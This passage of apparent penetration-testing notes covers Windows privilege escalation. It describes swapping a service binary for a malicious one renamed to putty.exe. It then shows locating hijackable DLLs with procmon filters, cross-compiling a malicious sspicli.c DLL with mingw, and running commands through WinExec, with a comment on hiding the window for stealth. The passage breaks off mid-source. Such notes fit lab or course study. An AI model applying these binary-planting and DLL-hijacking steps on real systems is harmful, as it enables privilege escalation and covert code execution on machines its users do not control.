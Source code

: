 ```
3) Perform actions

	
	Binary replacement:
		a. replace legitimate binary with malicious binary
		b. rename the original binary with a different backup name (i.e. putty.exe -> bak_putty.exe) 
		c. ensure the malicious binary has the name that the actions tab is calling for (i.e. shell.exe -> putty.exe)

		- http://10.50.35.61/uploads
		- File Explorer > View > 
		  [X] File Name Extensions
		  [X] Hidden Items
	
	
4) Reboot /log on / log back in 

```

# DLL PRIVESC IN WINDOWS

```
FINDING THE DLL's WITH PROCMON
--------------------------------
	1. first make sure you have sysinternals tools:

		net use * \\live.sysinternals.com\tools

	2. next use procmon and accept the eula

		.\procmon.exe --accepteula


	3. use the following filters:

		a) process name - contains - putty - include
		b) result - contains - NOT include
		c) path - contains - .dll - include

	4. then run putty, your procmon filters should populate with output now


[putty vulnerability](https://www.chiark.greenend.org.uk/~sgtatham/putty/wishlist/vuln-indirect-dll-hijack-2.html)


PART TWO: Create C source File and compile into DLL
-----------------------------------------------------

1. Install tools on linux machine
	
	 sudo apt-get install mingw-w64 mingw-w64-common mingw-w64-tools mingw-w64-x86-64-dev -y

2. THE actual C source code: (located also on linops at /security/scripts/sspicli.c)

	########## SSPICLI.c ########## 
	#include <windows.h>
	int execCommand()
	{
	 WinExec("cmd /C whoami > FINDME_1.txt", 1);					#change 1 to 0 if you want to be stealthy: 1 specifies to pop up on the desktop when it opens
```